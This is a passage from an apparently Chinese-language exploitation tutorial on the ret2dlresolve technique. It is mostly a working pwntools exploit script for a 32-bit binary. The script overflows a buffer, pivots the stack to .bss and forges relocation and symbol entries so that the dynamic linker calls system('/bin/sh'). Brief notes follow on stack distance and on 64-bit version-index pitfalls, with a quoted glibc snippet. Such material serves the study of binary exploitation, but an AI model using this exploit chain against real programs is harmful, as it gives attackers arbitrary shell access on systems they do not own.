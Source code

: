 ```c
  rel_plt  = elf.get_section_by_name('.rel.plt').header.sh_addr
  dynsym   = elf.get_section_by_name('.dynsym').header.sh_addr     
  dynstr   = elf.get_section_by_name('.dynstr').header.sh_addr     
  bss_addr = elf.get_section_by_name('.bss').header.sh_addr
  text_addr = elf.get_section_by_name('.text').header.sh_addr

  base_addr = bss_addr + 0x800

  payload = b"\x00" * (112)
  payload += flat([read_plt, pop3, 0, base_addr, 0x100, pop_ebp, base_addr -4, leave_ret])
  p.recv()
  p.send(payload)

  reloc_index = base_addr + 24 - rel_plt 
  fake_sym_addr = base_addr + 32
  align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
  fake_sym_addr += align

  r_sym = int((fake_sym_addr - dynsym) / 0x10)
  r_type = 0x7
  r_info = (r_sym << 8) + (r_type & 0xff) 
  fake_reloc = flat([write_got, r_info])

  st_name = fake_sym_addr + 0x10 - dynstr
  st_bind = 0x1
  st_type = 0x2
  st_info = (st_bind << 4) + (st_type & 0xf)
  fake_sym = flat([st_name, 0, 0, st_info])

  payload = flat([plt_0, reloc_index, 0x08049196, base_addr + 0x80, 0, 0])
  payload += fake_reloc
  payload += b"\x00" * align
  payload += fake_sym
  payload += b"system\x00"
  payload = payload.ljust(0x80, b"\x00")
  payload += flat([b"/bin/sh\x00"])
  payload = payload.ljust(0x100, b"\x00")
  p.send(payload)

if __name__ == '__main__':
	exp()
	p.interactive()
```

注意dl相关函数占用较多栈空间，迁移之后可能出现栈生长到其他不可写段的情况，所以迁移的地址需要离bss足够远。
## 64位情况
存在以下区别:
- 在32位中，`reloc_arg`作为偏移量，而在64位中作为`.rel.plt`的数组下标
- 结构体均升级为64位版本
- version问题
version问题如下
```c
if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
{
	const ElfW(Half) *vernum =
	  (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
	ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
	version = &l->l_versions[ndx];
	if (version->hash == 0)
		version = NULL;
}
```
此处把`(reloc->r_info)>>32`作为下标取值`vernum`，由于我们伪造的`(reloc->r_info)>>32`很大，导致容易取到不可读区域。